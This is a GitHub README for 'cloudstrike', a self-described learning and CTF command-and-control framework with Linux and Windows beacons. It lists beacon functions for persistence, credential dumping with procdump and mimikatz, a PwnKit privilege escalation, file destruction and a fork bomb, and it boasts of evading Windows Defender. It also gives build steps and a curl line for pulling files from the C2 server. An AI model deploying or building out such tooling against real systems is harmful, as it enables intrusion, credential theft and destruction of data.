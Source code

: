 # cloudstrike
This is a custom c2 framework with beacons for both linux and windows

<pre>
  ______  __        ______    __    __   _______       _______.___________..______       __   __  ___  _______ 
 /      ||  |      /  __  \  |  |  |  | |       \     /       |           ||   _  \     |  | |  |/  / |   ____|
|  ,----'|  |     |  |  |  | |  |  |  | |  .--.  |   |   (----`---|  |----`|  |_)  |    |  | |  '  /  |  |__   
|  |     |  |     |  |  |  | |  |  |  | |  |  |  |    \   \       |  |     |      /     |  | |    <   |   __|  
|  `----.|  `----.|  `--'  | |  `--'  | |  '--'  |.----)   |      |  |     |  |\  \----.|  | |  .  \  |  |____ 
 \______||_______| \______/   \______/  |_______/ |_______/       |__|     | _| `._____||__| |__|\__\ |_______|

</pre>

I created this framework to learn a bit about malware developments and command and control servers. As this is (at the time of release) not detected by some antivirus software like Windows Defender, you can also see that it is not too hard to write malware that goes undetected even though I didn't even obfuscate too much. Obviously, the beacons will probably still be detected by an antivirus with good dynamic detection, so this malware is not something harmful. BUT you can use this as a base for lateral movement in CTFs to manage your machines.

## Features
### C2

To install the requirements:
<pre>pip install -r requirements.txt</pre>

The C2 also has a fallback to the default http.server module instead of flask if you can't install flask and you can also disable it by setting `FLASK`=False in `cloudstrike.py` but this will make the beacon fail to download files from the webserver so you would need to change some lines in main.c. Feel free to advance the fallback so the beacon automatically chooses from where to download and contribute the changes!  

You also need to configure the following constants in `cloudstrike.py`  
`C2_ADDR`="0.0.0.0"  
`C2_PORT`=1337  
`C2_WEB_PORT`=8001  
`HOME`="/home/user/cloudstrike/" #needs to end with a '/' !!!

Taffic to C2_PORT that contains the magic string in the initial request will be forwarded automatically to the web server!  

You can access the web server at `C2_ADDR:C2_WEB_PORT/{magic}/some_file`. You can get the current magic string from the cloudstrike command `magic`.  
The flask web server will also respond with a status code of 404 to every request (even if the file is found) and returns a string of random length when no file is found to confuse fuzzers.  
(This also means wget C2_ADDR:C2_WEB_PORT/{magic}/some_file won't work because wget reacts to the 404 status code. Instead use curl -O C2_ADDR:C2_WEB_PORT/{magic}/some_file)

#### Available Functions
- `use <id>` : if you have connected clients you can use this to drop into the shell
- `list/ps` : list current connected clients
- `delete/kill <id>` : kill connection to client
- `connect <ip> <port>` : connnect to bind shell
- `listen <port>` : add an additional C2 PORT to listen for clients
- `forward local_port:dest:dest_port` : forward local port to remote service
- `routes` : keeps track of your forwards and displays the current port forwardings you are doing
- `restart web` : restart the web server (may not work as this was intended only if you want to start the webserver after the webserver didn't start initially)
- `read_weblog` : read flask web log
- `magic` : display current magic string
- `clear` : clear screen
- `broadcast <command>` : send command to all clients at the same time
- `exit`

### Beacon
The Beacon supports an encoded channel with xor (NO this is not secure but it can obfuscate the traffic) and a plain channel. You can configure this in `es2.h`.

#### Available Functions
- `implant`: execute persistence mechanism specific to the operating system
- `upload`: upload file (binary files currently only partially supported and only works in combination to cloudstrike)
- `download`: download file(binary files currently only partially supported and only works in combination to cloudstrike)
- `destroy`: destroys the machines files
- `panic`: removes itself quietly from the system(only for windows as it is easy for linux to do it manually)
- `pyinstall`: installs python on the target(windows only because for linux python is most of the time preinstalled)
- `passdump`: dumps creds (see the tip in the code to see how to use mimikatz to get the creds from the dump and this is really noisy and will propably be detected by an av)
- `crash`: crashes system with a fork bomb
- `swap` : swaps mouse buttons (currently only supported for windows)
- `update` : updates the beacon from the c2 web server (currently only supported for windows)
- `exit`
- `help`

## Building

On Linux, you can build the beacon with: `bash make.sh`

On Windows, it would be: `make.bat` (I used MinGW but I am sure you can also use other compilers if you reconfigure the command. If you port this over, it would be cool if you contribute these changes!)  

After installing you can use patch.sh to change a previous `C2_HOST` to a new one without rebuilding the whole binary

For some features, you need to put the following files into the static folder:

- For PwnKit: [CVE-2021-4034.py](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py) and rename it to `PwnKite.py`.
- You can download Procdump from [here](https://learn.microsoft.com/de-de/sysinternals/downloads/procdump) and rename it to `procdump.exe`.
- Go ahead and download Nyancat for Linux from [here](https://github.com/klange/nyancat/tree/master) and name it `nyancat`.
- Just grab a windows python installer executable for windows from here: [here](https://www.python.org/downloads/release/python-385/) you can also use another version but then you need to change the name in `main.c` from `python-3.8.5.exe` to your executable filename

## Contribution

Feel free to contribute!

If you look at the top of the files, there are some of the features I would like to implement someday. As I developed this in my free time, this software also has some other trolling features, but I removed them as they are not too helpful in CTFs and I just played around a little. So if you want some weird trolling features, feel free to ask, and I can add them into a separate version.

## Disclaimer

This software is only intended for learning purposes, and I do not take any responsibility for misuse.

This repository is for academic purposes, and the use of this software is your responsibility.

## Ascii Art from:

[https://patorjk.com/software/taag/](https://patorjk.com/software/taag/)
